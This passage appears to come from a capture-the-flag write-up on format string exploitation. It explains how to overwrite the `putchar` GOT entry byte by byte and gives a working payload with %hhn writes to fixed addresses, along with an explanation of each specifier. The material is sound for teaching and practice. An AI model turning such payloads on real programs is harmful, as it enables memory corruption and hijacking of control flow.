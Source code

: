 After finding the offset, perform format string to overwrite `putchar`. There are 2 ways here: overwrite each byte or overwrite 2 bytes at the same time.

#### First way: Overwrite each byte.

We will divide `0x1349` into 2 parts: `0x49` and `0x13`, overwriting the last part one by one.

```
payload  = b'A'*112
payload += f'%73c%23$hhn'.encode()
payload += f'%202c%24$hhn'.encode()
payload += b'a'
payload += p64(0x404018)
payload += p64(0x404019)
```

![alt text](images/image-6-3.png)

```
%73c: Prints 73 characters. 
%23$hhn: Write 1 byte (hhn as writing 1 byte) to the address located at position 23 in the stack (counting from the top of the stack which is the 6th parameter). (Overwrite 0x49 (73 decimal) to 0x404018).

%202c: Prints 202 characters. Now the total printed characters are 202 + 73 = 275. But because it is a byte (0-255), 275 will become 19 (0x13).
%24$hhn: Write 1 byte to the address located at position 24 in the stack. (Overwrite 0x13 to 0x404019).

And payload += b'a' is used to align the stack.
```
